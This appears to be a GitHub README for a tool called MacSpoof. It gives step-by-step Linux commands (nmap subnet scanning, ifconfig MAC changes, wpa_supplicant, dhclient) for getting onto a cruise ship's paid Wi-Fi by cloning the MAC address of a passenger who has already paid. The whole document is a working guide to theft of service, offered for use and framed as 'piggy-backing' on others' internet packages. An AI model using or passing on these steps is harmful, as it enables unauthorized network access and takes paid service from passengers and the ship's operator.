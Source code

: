 MacSpoof
========

Utilizes nmap, dhclient, and wpa_supplicant

<p><a href="url"><img src="http://i.imgur.com/upABDr6.jpg" height="600" width="480" ></a></p>

========


Chances are that aboard a cruise ship with a maximum capacity of 5,000+ people, a few dozen will have already purchased an internet package. What we want to do is spoof our computer’s MAC Address to match that of those computers who are already connected to the network. If a computer is logged in and has access to the internet, any computer with the same MAC Address will have access to the internet as well. This means we can "piggy-back" on someone else's package. AND, if they only paid for one device, it won't kick them off. 

We assume several things here. First, that the computer has gotten past the login page. It is highly likely that someone won’t just be staring at the login page while connected to the network for more than 5 minutes. Second, that the router will actually give us an IP address. This is important, without an IP address we won't be able to connect. Third, the router will let us connect. There are thousands of access points aboard the ship. If we fail to connect successfully with a particular BSSID, we must try another one. Luckily, wpa_supplicant does this automatically. 


Install the following packages:

* nmap
* wpa_supplicant      (default)
* ip link or ifconfig (default)

Requirements:
* Linux
* Wireless interface


1. Connect to the network. Make sure you do this via **wpa_supplicant**. It will make reassociating with the network easier when you change your MAC Address and request an IP from a router. 
NOTE: On Ubuntu, network-manager runs in the background. It needs to be disabled while **wpa_supplicant** is running! 

        sudo stop network-manager
        sudo wpa_supplicant -D nl08211 -i wlan0 -c /etc/wpa_supplicant/wpa_supplicant.conf`

2. Scan the network for connected devices. We want the MAC Addresses. You must run nmap as sudo. Otherwise you will not get any MAC Addresses. We will scan the entire subnet from 172.27.20.0 to 172.27.20.255. Your IP range depends on the IP address given to you when you first connected to the network. This will let you know which node you have connected to. /<numbits> are the same as the reference IP or hostname given. There are 32 bits in an IPv4 address. We keep 24 fixed, the last 8 bits are variable. 

        sudo nmap -sP 172.27.20.0/24

3. nmap should produce an output similar to this:

        Nmap scan report for WiMaxCPE (192.168.15.1)
        Host is up (0.0024s latency).
        MAC Address: 00:1D:88:30:71:8D (Clearwire)
        Nmap scan report for ThinkPad-W530 (192.168.15.253)
        MAC Address: 00:1D:88:30:64:1D (ThinkPad) 
        Host is up.
        ...

4. Spoof your MAC Address

        sudo ifconfig wlan0 down hw ether 00:1D:88:30:64:1D
        sudo ifconfig wlan0 up

5. Obtain a DHCP lease from the router. The router will give you an IP address upon success. Then you are all set!
        sudo dhclient -r
        sudo dhclient -v wlan0

6. Visit any webpage. You should not be redirected to a login page if owner of the MAC Address has paid for internet. 

7. ???

8. PROFIT





